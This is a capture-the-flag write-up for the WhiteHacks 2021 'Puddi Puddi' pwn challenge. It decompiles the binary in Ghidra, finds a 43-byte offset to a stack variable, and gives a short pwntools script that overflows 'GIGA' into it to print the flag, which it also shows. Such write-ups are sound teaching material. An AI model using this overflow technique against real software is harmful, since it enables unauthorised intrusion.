 # Puddi Puddi

#### Team: Elmo
#### Category: Pwn
#### Flag: WH2021{3880fba0faf0_g1g4_pudd1}

---

### Challenge Description

Why have a MEGA 🍮 when you can have a GIGA 🍮?

Interact with the service using nc chals.whitehacks.ctf.sg 20301 to get started!

[puddi.zip](https://github.com/caprinux/WhiteHacks-2021-Writeups/files/6097205/puddi.zip)


---
### Challenge 

ooooooooo first binary exploitation for whitehacks yikes

Okay so we are given a ELF binary file... and a python exploit template (wow how generous WH)

When we execute the binary file, it takes an input 

```
Do you like pudding? (Y/N) => input

PUDDI PUDDI!

PUDDI PUDDI!

SUGOKU DEKKAI...

Oops we ran out of pudding...
```

How interesting. Let's get into breaking this apart

---
### Solution

So first, we decompile the binary file in Ghidra. From the main function, we obtain the following:

```

  __isoc99_scanf(&DAT_00100d87,input);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("SUGOKU DEKKAI...");
  sleep(1);
  iVar1 = strcmp(size,"GIGA");
  if (iVar1 != 0) {
    puts("Oops we ran out of pudding...");

```

As you can see, the input is taken by ``__isoc99_scanf(&DAT_00100d87,input);``.

If you don't understand whatever is in the line of code, it's fine because I don't undestand either, decompiled code can get pretty messy.

The main point is that the function called scanf will take an input which is called input in this case.

It then compare a variable called ``size`` which was defined further up in the function and compares it with GIGA. If true, it prints out a flag.

Now the question is how can we use our input to change the size variable to hold GIGA so that the compare will be true and the code will print out flag? Buffer overflow.

_also remember there was an exploit template that was given which was meant for buffer overflow_

In order to buffer overflow, we need to know the offset between input and size, so we can determine how many bytes we need to overflow into the size variable.

Going back to our Ghidra, we go to the stack layout and we see the following.

```
size[5]         Stack[-0xd]:5      size
char[32]        Stack[-0x38]...    input
```

With some calculations, ``0x38 - 0xd = 43`` _you can do this in python_

We find that the offset is 43. Now we can start writing our exploit.

```py
from pwn import *
HOST = 'chals.whitehacks.ctf.sg' # name of the host to connect to
PORT = 20301  # number of the port to connect to 
io = remote(HOST, PORT) # connects to the service
io.recvuntil('Do you like pudding? (Y/N) => ') # receives data until input prompt
payload = b'A'*43 # to fill up all 43 bytes of offset so we can reach overflow
payload += b'GIGA' # GIGA will overflow into size
io.sendline(payload) # sends your payload to the service
io.interactive() # allows you to interact with service manually
```

VOILA!

A beautiful ASCII picture is printed and there is our flag.

```
[+] Opening connection to chals.whitehacks.ctf.sg on port 20301: Done
[*] Switching to interactive mode
PUDDI PUDDI!
PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888 
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888 
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888 
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888 
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888 
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P 
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "  
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888

WH2021{3880fba0faf0_g1g4_pudd1}
```
